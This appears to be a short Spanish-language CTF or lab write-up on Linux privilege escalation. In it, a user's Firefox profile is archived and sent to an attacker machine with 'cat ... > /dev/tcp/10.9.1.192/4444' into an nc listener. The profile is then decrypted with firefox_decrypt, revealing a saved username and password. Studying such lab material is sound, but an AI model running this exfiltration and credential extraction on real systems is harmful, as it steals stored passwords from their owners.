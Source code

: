 ==Ejemplo firefox==
El usuario tiene una carpeta de firefox que quizás tiene contraseñas guardadas: [https://loveleshgangil.medium.com/linux-privilege-escalation-checklist-6ccfb13b11ca](https://loveleshgangil.medium.com/linux-privilege-escalation-checklist-6ccfb13b11ca)
```solidity
user@ubuntu:~/.firefox$ pwd
/home/user/.firefox
```

Nos dicen de usar esta herramienta:
[https://github.com/unode/firefox_decrypt](https://github.com/unode/firefox_decrypt)

He probado de ejecutar el script directamente en el server pero no iba así que hacemos un .tar de la carpeta firefox y nos traemos el archivo a nuestra máquina.
```solidity
nc -nvlp 4444 > firefox.tar.gz
```

```solidity
tar -czvf firefox.tar.gz ./.firefox/
cat firefox.tar.gz > /dev/tcp/10.9.1.192/4444
```

En nuestra máquina:
```solidity
7z x firefox.tar.gz
7z x firefox.tar
```

```solidity
python firefox_decrypt.py ./.firefox/
Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
2

...

Website:   <https://glitch.thm>
Username: 'v0id'
Password: 'love_the_void'
```